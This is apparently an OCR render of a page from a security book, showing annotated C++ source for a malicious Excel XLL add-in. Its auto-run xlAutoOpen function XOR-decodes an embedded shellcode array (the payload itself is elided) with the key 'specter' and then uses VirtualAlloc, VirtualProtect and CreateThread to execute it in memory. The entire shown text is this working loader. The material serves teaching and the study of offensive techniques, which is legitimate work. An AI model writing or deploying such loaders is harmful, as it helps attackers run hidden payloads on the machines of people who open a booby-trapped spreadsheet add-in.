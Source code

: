 ```

    return TRUE;
}

extern "C"
__declspec(dllexport) short __stdcall xlAutoOpen()
{
  ❶ const char shellcode[] = `--snip--`
    const size_t lenShellcode = sizeof(shellcode);
    char decodedShellcode[lenShellcode];
  ❷ const char key[] = "specter";

    int j = 0;
    for (int i = 0; i < lenShellcode; i++)
    {
        if (j == sizeof(key) - 1)
        {
            j = 0;
        }

      ❸ decodedShellcode[i] = shellcode[i] ^ key[j];
        j++;
    }

  ❹ PVOID runIt = VirtualAlloc(0,
        lenShellcode,
        MEM_COMMIT,
        PAGE_READWRITE);

    if (runIt == NULL)
    {
        return 1;
    }

  ❺ memcpy(runIt,
        decodedShellcode,
        lenShellcode); DWORD oldProtect = 0;
  ❻ VirtualProtect(runIt,
        lenShellcode,
        PAGE_EXECUTE_READ,
        &oldProtect);

  ❼ CreateThread(NULL,
        NULL,
        (LPTHREAD_START_ROUTINE)runIt,
        NULL,
        NULL,
        NULL);

    Sleep(1337);
    return 0;
}
```

